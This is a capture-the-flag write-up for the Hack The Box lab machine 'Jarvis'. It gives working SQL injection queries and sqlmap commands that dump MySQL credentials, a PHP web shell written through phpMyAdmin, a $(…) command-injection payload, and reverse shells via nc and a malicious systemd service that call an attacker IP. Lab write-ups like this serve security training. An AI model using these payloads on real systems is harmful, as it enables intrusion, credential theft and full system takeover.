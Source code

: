 ## Jarvis

Difficulty: Medium

### User Flag

#### Foothold

```
rustscan -a 10.10.10.143 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/d32b29aa-c6cb-494d-a31a-65fcdb41feea)

<br>

GoBuster interesting files to us, but the main is phpmyadmin.

![goBuster](https://github.com/b1d0ws/OSCP/assets/58514930/a65985f4-6f5f-46be-808d-b5b64b57bb36)

<br>

Navigating to the website, we find a GET Parameter in room.php: http://10.10.10.143/room.php?cod=1.

If we try to use sqlmap on this parameter, we get blocked by some kind of WAF.

![banned](https://github.com/b1d0ws/OSCP/assets/58514930/c3b93a24-a51d-40ed-99ea-e02d5598f6a0)

<br>

There are 2 paths to exploit this possible SQL Injection.

#### Automatic Exploitation

To bypass de WAF, we can simply use --random-agent. Probably the WAF is blocking us based on this header.

Since there is no intersting informations inside the room database, we extract the User and Password from the mysql database.

```
sqlmap -u "http://10.10.10.143/room.php?cod=1" -A "NONE" --host "bleble" --dbms MySql --dbs
sqlmap -u "http://10.10.10.143/room.php?cod=1" -A "NONE" --host "bleble" --dbms MySql -D mysql -T user -C User,Password --dump
```

![sqlmapUserPassword](https://github.com/b1d0ws/OSCP/assets/58514930/6d5bc6ae-36c3-4084-a27e-424767252640)

<br>

#### Manual Exploitation

Starts with UNION injection until the page populate somehting:

```
http://10.10.10.143/room.php?cod=100 UNION SELECT 1;-- -
http://10.10.10.143/room.php?cod=100 UNION SELECT 1,2,3,4,5,6,7;-- -
```

![firstUnion](https://github.com/b1d0ws/OSCP/assets/58514930/1e00f1ee-c426-4ac2-b47f-f508b6e22210)

![findingColumns](https://github.com/b1d0ws/OSCP/assets/58514930/985e4d86-4753-4237-82f2-cfe275420ecf)

<br>

Other enumeration commands:

```bash
# Listing DBs
SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -
# Response: hotel,information_schema,mysql,performance_schema

# The "group_concat" put all the values from different rows into one string

# Show tables in hotel
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- -
# Response: room

# Show Columns in room
SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room';-- -
# Response: cod,name,price,descrip,star,image,mini

# Show Tables in mysql
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -
# Response: [LOT OF TABLES], user

# Show Columns in user
SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user';-- -
# Response: [LOT OF COLUMNS, User, Password

# EXTRA
# You can also read files with LOAD_FILE() function
/room.php?cod=9999+union+select+"1","2",(LOAD_FILE("/var/www/html/connection.php")),"4","5","6","7"
```

The main command is the one below, to extract username and password as well.

```
SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -
```

![unionUsernamePassword](https://github.com/b1d0ws/OSCP/assets/58514930/ea120bcc-ec74-4b0c-b412-6089d1168d70)

<br>

#### PHPMyAdmin Reverse Shell

First we crack the password collected in the SQL Injection exploitation.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![crackingHash](https://github.com/b1d0ws/OSCP/assets/58514930/b04fe5a1-6d14-47c0-b83f-e8eb33d441b1)

<br>

After, create a database inside PHPMyAdmin, run the query below and execute a reverse shell:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
http://jarvis.htb/backdoor.php?cmd=nc%2010.10.14.11%203333%20-c%20bash
```

![creatingWebShell](https://github.com/b1d0ws/OSCP/assets/58514930/1ec5f4e4-3b44-45d5-b553-a4de811475f7)

![webShellToReverse](https://github.com/b1d0ws/OSCP/assets/58514930/dd4ba1ca-bd09-4503-a422-e06dca0fa10e)

![firstRevShell](https://github.com/b1d0ws/OSCP/assets/58514930/902389bc-4c11-4c82-9ddb-39b05782f791)

<br>

#### User Escalation

sudo -l return us a specific file.

![sudo -l](https://github.com/b1d0ws/OSCP/assets/58514930/ef8f5a54-076d-4238-b137-e181846125b3)

<br>

Reading it, we o find a Command Injection in the ping function. Although it is filtering some special characters, we can still use $(COMMAND) to execute commands and get a reverse shell.

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter  an IP: $(/tmp/shell.sh) 127.0.0.1
```

![simplerPy](https://github.com/b1d0ws/OSCP/assets/58514930/9dc58b0c-7d21-477f-bf15-09580b63323b)

![commandInjection](https://github.com/b1d0ws/OSCP/assets/58514930/6562208d-0f0f-48ea-b670-c41d6236c6fd)

<br>

### Root Flag

Enumerating SUID bits, systemctl is among them. This is a privilege escalation possibility.

```
find / -type f -perm -04000 -ls 2>/dev/null
```

![suid](https://github.com/b1d0ws/OSCP/assets/58514930/62aff966-5e08-438e-a5e0-730468a0bf2a)

Create a file called vamo.service with the content below that execute a reverse shell and enable it with systemctl.

```
# vamo.service
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.11 1337'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target

# Execute it
systemctl link /home/pepper/vamo.service 
systemctl start vamo 
```
